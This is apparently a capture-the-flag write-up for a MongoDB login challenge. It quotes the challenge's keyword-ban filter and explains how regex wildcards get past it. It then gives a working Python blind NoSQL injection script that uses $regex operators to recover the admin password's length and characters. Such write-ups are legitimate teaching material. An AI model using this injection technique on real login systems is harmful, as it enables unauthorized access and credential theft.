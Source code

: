 # This exercise is set to MongoDB.

### It has filter like below.
#### filter )
```js
filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
#It returns True if banned keyword is included in your input.
```

### But keyword filtering system is not secure. We can use sqli untill the fundamental vulerabililty exists.
> filtering is easily paralyzed by using regular expression "." that mean every character. ex) admin -> ad.in , DH{ -> D.{
### Here is the exploit code use blind sqli )
```py
import requests, string

HOST = 'http://host3.dreamhack.games:13265'
SUCCESS = 'admin'
ALPHANUMERIC = string.digits + string.ascii_letters

i = 1
while True:
    res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=.{{{i}}}')
    if res.text == SUCCESS:
        i += 1
    else:
        i -= 1
        break;
print(f'length of password : {i}')

flag = ''
for k in range(i-4):
    for ch in ALPHANUMERIC:
        res = requests.get(f'{HOST}/login?uid[$regex]=adm&upw[$regex]=D.{{{flag}{ch}')
        if res.text == SUCCESS:
            flag += ch
            break

print(f'flag : DH{{{flag}}}')
```
first, code find the length of the password and then, using for loop with range(LENGTH OF PWD), find flag by repeating substition.
